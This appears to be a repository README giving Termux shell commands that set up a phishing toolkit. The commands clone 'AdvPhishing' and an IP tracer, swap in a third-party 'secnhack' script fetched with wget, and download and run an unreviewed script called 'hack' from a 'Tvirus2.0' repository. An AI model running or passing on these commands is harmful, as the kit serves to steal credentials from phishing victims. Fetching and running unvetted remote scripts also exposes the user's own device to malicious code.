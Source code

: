 # Follow This
* Vist Ngrok = [Here](https://ngrok.com/)
* Download Termux = [Here](https://f-droid.org/repo/com.termux_112.apk)


```
pkg upgrade
pkg install wget
pkg install root-repo
pkg install unstable-repo
pkg install x11-repo
pkg install git
pkg install python
git clone https://github.com/Ignitetch/AdvPhishing
git clone https://github.com/T-Dynamos/Maths_Bot m_bot
git clone https://github.com/Cabbagec/termux-ohmyzsh
git clone https://github.com/rajkumardusad/IP-Tracer.git ip
wget https://raw.githubusercontent.com/T-Dynamos/Tvirus2.0/main/hack
cd AdvPhishing
rm -rf secnhack
wget https://raw.githubusercontent.com/T-Dynamos/advphishing/main/secnhack
bash Android-Setup.sh
cd
cd ip
chmod +x *
./install
cd
cd termux-ohmyzsh
bash install.sh
cd
chmod +x *
clear
echo Exectue = ./hack
```

